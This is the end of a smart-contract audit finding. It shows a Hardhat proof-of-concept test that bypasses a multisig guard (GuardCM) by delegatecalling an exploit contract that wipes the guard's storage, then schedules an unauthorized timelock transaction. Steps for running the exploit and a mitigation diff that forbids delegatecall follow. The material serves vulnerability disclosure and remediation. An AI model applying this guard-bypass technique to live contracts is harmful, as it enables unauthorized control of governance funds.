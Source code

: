 ```javascript
            await expect(
                safeContracts.executeTx(multisig, txHashData, signMessageData, 0)
            ).to.be.reverted;

            // Deploy and delegatecall to exploit contract
            const DelegatecallExploitContract = await ethers.getContractFactory("DelegatecallExploitContract");
            const exploitContract = await DelegatecallExploitContract.deploy();
            await exploitContract.deployed();
            nonce = await multisig.nonce();
            txHashData = await safeContracts.buildContractCall(exploitContract, "deleteGuardStorage", [], nonce, 1, 0);
            for (let i = 0; i < safeThreshold; i++) {
                signMessageData[i] = await safeContracts.safeSignMessage(signers[i+1], multisig, txHashData, 0);
            }
            await safeContracts.executeTx(multisig, txHashData, signMessageData, 0);

            // Unauthorized call succeeds since we have removed the guard
            nonce = await multisig.nonce();
            txHashData = await safeContracts.buildContractCall(timelock, "schedule", [treasury.address, 0, payload,
                Bytes32Zero, Bytes32Zero, 0], nonce, 0, 0);
            for (let i = 0; i < safeThreshold; i++) {
                signMessageData[i] = await safeContracts.safeSignMessage(signers[i+1], multisig, txHashData, 0);
            }
            await safeContracts.executeTx(multisig, txHashData, signMessageData, 0);
        });
```

To run the exploit test:
- Save the exploit contract somewhere under the `governance` directory as `DelegatecallExploitContract.sol`.
- Add the test to the `"Timelock manipulation via the CM"` context in `governance/test/GuardCM.js` and run it using the command `npx hardhat test --grep "CM cannot bypass guard through delegatecall"`. This will run the test above, which should demonstrate the exploit by successfully making an unauthorized call after the guard has been bypassed.

### Tools Used
Hardhat

### Recommended Mitigation Steps
Disallow `delegatecall`s entirely: 
```diff
@@ -397,15 +397,14 @@ contract GuardCM {
         bytes memory,
         address
     ) external {
+        // No delegatecall is allowed
+        if (operation == Enum.Operation.DelegateCall) {
+            revert NoDelegateCall();
+        }
         // Just return if paused
         if (paused == 1) {
             // Call to the timelock
             if (to == owner) {
-                // No delegatecall is allowed
-                if (operation == Enum.Operation.DelegateCall) {
-                    revert NoDelegateCall();
-                }
-
                 // Data needs to have enough bytes at least to fit the selector
```